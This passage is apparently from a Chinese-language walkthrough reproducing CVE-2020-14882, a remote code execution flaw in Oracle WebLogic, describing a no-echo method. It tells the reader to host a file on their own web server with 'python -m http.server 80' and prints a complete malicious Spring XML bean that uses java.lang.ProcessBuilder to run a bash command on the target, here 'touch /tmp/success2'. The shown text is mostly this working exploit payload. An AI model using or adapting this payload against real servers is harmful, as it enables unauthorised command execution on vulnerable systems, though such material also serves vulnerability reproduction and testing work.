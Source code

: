 ![](images/cve-2020-14882-6.png)

#### 方法二：无回显方式

首先，我们需要构造一个 XML 文件，并将其保存在 Weblogic 可以访问到的服务器上，可以自行搭建一个web服务，例如 `python -m http.server 80`

XML 文件内容如下：

```xml linenums="1"
```xml title="14882-rce.xml"
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch /tmp/success2]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

![](images/cve-2020-14882-7.png)
